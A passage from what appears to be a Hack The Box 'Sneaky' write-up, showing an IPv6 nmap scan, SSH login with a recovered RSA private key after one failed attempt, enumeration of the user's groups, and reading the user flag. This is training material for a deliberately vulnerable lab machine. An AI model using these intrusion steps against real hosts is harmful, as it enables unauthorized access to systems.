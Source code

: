 And can scan to see if ssh is open on port 22 on IPv6:

```text
root@kali:~/htb/sneaky# nmap -Pn -p22 -6 dead:beef:0000:0000:0250:56ff:feb9:1212

Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-28 17:00 BST
Nmap scan report for dead:beef::250:56ff:feb9:1212
Host is up (0.023s latency).
PORT   STATE SERVICE
22/tcp open  ssh
Nmap done: 1 IP address (1 host up) scanned in 0.24 seconds
```

Success, we can now try to get in using the rsa key we found earlier:

```text
root@kali:~/htb/sneaky# ssh -i rsa.key admin@dead:beef::250:56ff:feb9:1212
admin@dead:beef::250:56ff:feb9:1212: Permission denied (publickey).
```

Key isn't for admin user, try the other account we found:

```text
root@kali:~/htb/sneaky# ssh -i rsa.key thrasivoulos@dead:beef::250:56ff:feb9:1212

The authenticity of host 'dead:beef::250:56ff:feb9:1212 (dead:beef::250:56ff:feb9:1212)' can't be established.
ECDSA key fingerprint is SHA256:KCwXgk+ryPhJU+UhxyHAO16VCRFrty3aLPWPSkq/E2o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'dead:beef::250:56ff:feb9:1212' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-75-generic i686)
  System information as of Thu May 28 17:25:00 EEST 2020
  System load: 0.0               Memory usage: 4%   Processes:       178
  Usage of /:  9.9% of 18.58GB   Swap usage:   0%   Users logged in: 0
Last login: Sun May 14 20:22:53 2017 from dead:beef:1::1077
```

## User Flag

We are in, check who and where we are:

```text
thrasivoulos@Sneaky:~$ id
uid=1000(thrasivoulos) gid=1000(thrasivoulos) groups=1000(thrasivoulos),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare)
thrasivoulos@Sneaky:~$ pwd
/home/thrasivoulos
thrasivoulos@Sneaky:~$ ls
user.txt
```

Grab flag while we're here:

```text
thrasivoulos@Sneaky:~$ cat user.txt
<<HIDDEN>>
```
